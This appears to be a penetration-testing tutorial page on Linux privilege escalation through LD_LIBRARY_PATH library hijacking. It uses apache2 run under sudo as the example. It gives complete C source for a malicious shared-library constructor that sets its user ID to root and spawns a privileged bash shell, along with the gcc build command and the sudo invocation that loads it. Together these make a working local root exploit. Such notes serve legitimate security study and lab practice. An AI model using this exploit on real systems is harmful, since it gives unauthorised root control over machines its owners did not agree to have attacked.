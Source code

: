 # LD\_LIBRARY\_PATH

The LD\_LIBRARY\_PATH environment variable contains a set of directories where shared libraries are searched for first.

The ldd command can be used to print the shared libraries used by a program:

#### `ldd /usr/sbin/apache2`

By creating a shared library with the same name as one used by a program, and setting LD\_LIBRARY\_PATH to its parent directory, the program will load our shared library instead.

Run ldd against the apache2 program file:

#### `ldd /usr/sbin/apache2`

![](<../../../../.gitbook/assets/1 (21).png>)

Hijacking shared objects using this method is hit or miss. Choose one from the list and try it (libcrypt.so.1 seems to work well).

Create a file (library\_path.c) with the following contents:

#### `#include` ` #include` ` static void hijack() __attribute__((constructor));` ` void hijack() {` ` unsetenv("LD_LIBRARY_PATH");` ` setresuid(0,0,0);` ` system("/bin/bash -p");` ` }` ``

Compile library\_path.c into libcrypt.so.1:

#### `gcc -o libcrypt.so.1 -shared -fPIC library_path.c`

Run apache2 using sudo, while setting the LD\_LIBRARY\_PATH environment variable to the current path (where we compiled library\_path.c):

#### `sudo LD_LIBRARY_PATH=. apache2`

![](../../../../.gitbook/assets/env4.png)









